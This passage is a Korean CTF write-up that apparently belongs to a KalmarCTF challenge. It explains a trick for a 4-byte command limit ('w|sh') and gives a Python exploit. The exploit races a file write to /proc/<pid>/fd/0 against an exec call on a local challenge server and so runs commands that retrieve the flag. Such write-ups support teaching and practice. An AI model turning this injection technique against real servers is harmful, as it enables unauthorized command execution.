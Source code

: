 `w|sh` 명령을 실행하는 이유는 길이가 4바이트까지이고 `sh` 프로세스에 `STDIN`을 줘야하기 때문에 한 바이트짜리 명령어인 `w`를 사용하는 것이다.

존재하지 않는 명령어를 `STDIN`으로 줘도 될 것 같지만 time window가 다른지 존재하는 명령어가 성공 확률이 높다고 한다.

이 때 `w|sh`는 `sh`라는 또 다른 프로세스를 생성하므로 pid를 `3`이 아닌 `4`만큼 증가시켜야 한다.

컨셉은 간단한데 발상이 대단한 것 같다.

### Payload
``` python
import requests
import threading
from time import sleep

url = "http://localhost:6664"
cmd = "/would you be so kind to provide me with a flag"

def race_fd():
    global pid
    requests.post(f"{url}/write?filename=/proc/{pid}/fd/0", data=cmd)

def race_cmd():
    global res
    res = requests.get(f"{url}/exec?cmd=w|sh").text

def rwx_exec(cmd):
    uri = url + "/exec"
    uri += "?cmd=" + cmd
    return requests.get(uri)

while True:
    r = rwx_exec("ps")
    pid = int(r.text.split("\n")[-2].split()[0])
    pid += 4
    print(f"[*] trying {pid}")

    thread_cmd = threading.Thread(target=race_cmd)
    thread_fd = threading.Thread(target=race_fd)

    thread_fd.start()
    thread_cmd.start()
    thread_cmd.join()
    thread_fd.join()

    if "kalmar{" in res:
        print(res)
        break
    
    sleep(0.1)
```
